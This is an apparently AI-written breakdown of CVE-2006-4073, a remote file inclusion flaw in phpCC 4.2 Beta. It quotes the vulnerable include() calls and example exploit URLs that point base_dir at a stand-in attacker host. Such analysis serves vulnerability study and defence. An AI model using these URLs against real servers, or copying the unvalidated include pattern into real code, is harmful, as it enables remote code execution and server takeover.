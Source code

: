 Based on the provided content, here's a breakdown of the vulnerability:

**CVE ID:** CVE-2006-4073

**Root Cause of Vulnerability:**
The vulnerability stems from the lack of proper verification of the "base_dir" input before it's used in file inclusion operations within the phpCC 4.2 Beta application. Specifically, the `include()` function in PHP is used with the user-supplied `base_dir` without validation.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The primary vulnerability is RFI. The application uses a user-controlled parameter, `base_dir`, to specify the base directory for included files, allowing an attacker to inject a remote URL.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a malicious PHP file from a remote server, an attacker can execute arbitrary PHP code on the vulnerable server. This can lead to complete compromise of the web server and the application it hosts.

**Attack Vectors:**
- **HTTP GET Request:** The `base_dir` parameter is passed through the URL via HTTP GET requests to the vulnerable PHP files (login.php, reactivate.php, register.php).

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs network access to the vulnerable web server.
- **Ability to Host Malicious File:** The attacker needs to host a malicious PHP file on a server accessible via HTTP(S).
- **Understanding of Target URL Structure:** The attacker needs to know the URLs of the vulnerable scripts.

**Technical Details:**
The exploit-db entry shows code snippets from `login.php`, `reactivate.php`, and `register.php` which show how `include()` is used in conjunction with the `base_dir` variable:

```php
// login.php
include($base_dir."includes/common.php");
include($base_dir."includes/header.php");

//reactivate.php
include($base_dir."includes/config.php");
include($base_dir."includes/constants.php");
include($base_dir."includes/functions.php");
include($base_dir.'includes/sessions.php');

//register.php
include( $base_dir . "includes/common.php" );
include( $base_dir . "includes/header.php" );
```
The exploit-db entry provides example exploit URLs showing how the `base_dir` can be manipulated.

```
exploit : http://somehost/login.php?base_dir=http://evilcode
          http://somehost/reactivate.php?base_dir=http://evilcode
          http://somehost/register.php?base_dir=http://evilcode
```
These demonstrate how the attacker can point the `base_dir` to a malicious server hosting an attacker-controlled php file.

The content provides more details than the CVE description which is a placeholder.